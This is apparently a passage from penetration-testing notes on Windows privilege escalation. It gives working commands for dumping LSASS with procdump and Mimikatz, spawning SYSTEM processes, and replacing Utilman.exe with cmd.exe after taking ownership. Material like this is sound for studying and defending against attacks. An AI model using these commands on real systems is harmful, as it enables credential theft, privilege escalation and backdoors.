```
C:\> robocopy /B <SOURCE_DIRECTORY> <DEST_DIRECTORY> <COPY_FILE_NAME>
```

### SeDebug

**Credential Extraction**

We can dump LSASS for credentials. We can get a .dmp file of this via either:

1. Manual dump (requires GUI) and transfer back to attacker machine
    - Task Manager > lsass.exe > Create Dump File
2. OR command line with `procdump.exe` by SysinternalsSuite
    ```
    C:\> procdump.exe -accepteula -ma lsass.exe lsass.dmp
    ```

Then with Mimikatz, either do it all with `privilege::debug` and `sekurlsa::logonpasswords` or if importing via file, use `sekurlsa::minidump <.dmp FILE>` then logonpasswords.

**RCE as SYSTEM**

We can achieve this by spawning a process (which will be the child process) and assigning it to a parent process which is owned by SYSTEM. The child process will then inherit the SYSTEM privileges.

Neat lil script to achieve this: https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1

Use `tasklist` or `Get-Process` to view processes and choose something that runs as SYSTEM, like LSASS.

Also check this one out https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC or just google SeDebug PoC

### SeTakeOwnership
- Fun one tbh
- Allows you to take ownership of a file
- Doing this alone won't let you overwrite, but you can change permissions to give your user full access to file and *then* you can overwrite.
- **Try this on any interesting looking files, like web-config, passwords, kdbx etc. that you cannot otherwise access.**

E.g. after launching cmd with admin privileges

```
whoami /priv
> SeTakeOwnership

takeown /f C:\Windows\System32\Utilman.exe
> done

icacls C:\Windows\System32\Utilman.exe /grant <my_user>:F
> done

copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
> done
```

